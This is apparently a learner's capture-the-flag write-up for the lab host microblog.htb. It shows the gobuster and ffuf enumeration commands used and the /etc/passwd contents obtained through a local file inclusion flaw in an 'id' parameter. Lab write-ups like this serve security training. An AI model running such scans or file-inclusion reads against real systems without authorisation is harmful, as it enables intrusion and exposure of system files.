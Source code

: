 
Im using gobuster.. to see if i'm able to find something 

```
gobuster dir -u http://app.microblog.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20  -x txt,html,php
```


And here where is the license too...

```
gobuster dir -u http://microblog.htb:3000/assets/js/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20  -x txt,html,php
```

and here 

```
gobuster dir -u http://microblog.htb:3000/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20  -x txt,html,php 
```


I found nothing in this way... I will try 

```
ffuf -c -w /usr/share/amass/wordlists/subdomains-top1mil-20000.txt -u http://FUZZ.microblog.htb
```

On this way I found "sunny.microblog.htb"  but i think this is not so interesting... strange. On the gitea I see something like this. 

Ok, at this point my mind is blowing, and I dont know what to do, I get a hint and I was able to know that the id parameter is vulnerable to a LFI..... ssssssssht. Sometimes is hard to be focus and be able to see al the possible vulnerabilities even more when you're a script kiddie like me.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologinsystemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
cooper:x:1000:1000::/home/cooper:/bin/bashredis:x:103:33::/var/lib/redis:/usr/sbin/nologin
git:x:104:111:Git Version Control,,,:/home/git:/bin/bashmessagebus:x:105:112::/nonexistent:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:997:997::/var/log/laurel:/bin/false
```
